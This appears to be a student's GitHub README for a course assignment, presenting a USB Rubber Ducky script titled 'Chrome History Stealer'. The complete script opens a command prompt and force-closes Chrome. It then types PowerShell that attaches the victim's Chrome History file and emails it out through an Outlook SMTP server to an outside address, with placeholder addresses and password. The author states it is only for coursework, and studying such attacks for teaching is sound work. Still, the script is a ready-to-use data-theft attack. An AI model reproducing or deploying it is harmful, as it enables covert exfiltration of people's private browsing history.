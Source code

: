 # Chrome History Stealer - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script will get Chrome's Browser History and send it by email.<br/>
Steps to write the script:
1. Open cmd
2. Close Chrome Browser to be able to access the Chrome History File
3. Open Powershell
4. Send Chrome History File by email
5. Close the powershell

**This script is for the course's assignment and I don't aim to use it to harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd---------
ENTER
DELAY 500
REM ---------Close the chrome process and all its children---------
STRING taskkill /F /IM chrome.exe /T
ENTER
DELAY 500
REM ---------close cmd---------
STRING exit
ENTER
DELAY 300
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 300
REM ---------Open Powershell---------
STRING powershell
ENTER
DELAY 1000
REM ---------Send Chrome's History File by Email---------
STRING $SMTPServer = 'smtp.outlook.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('fromEmail@hotmail.com', 'password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'fromEmail@hotmail.com'
ENTER
STRING $ReportEmail.To.Add('toemail@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Chrome Browser history Ducky'
ENTER
STRING $ReportEmail.Body = 'Attached is your list of visited sites.' 
ENTER
STRING $ReportEmail.Attachments.Add('./AppData/Local/Google/Chrome/User Data/Default/History')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 10000
REM ---------Close Powershell---------
STRING exit
ENTER
```
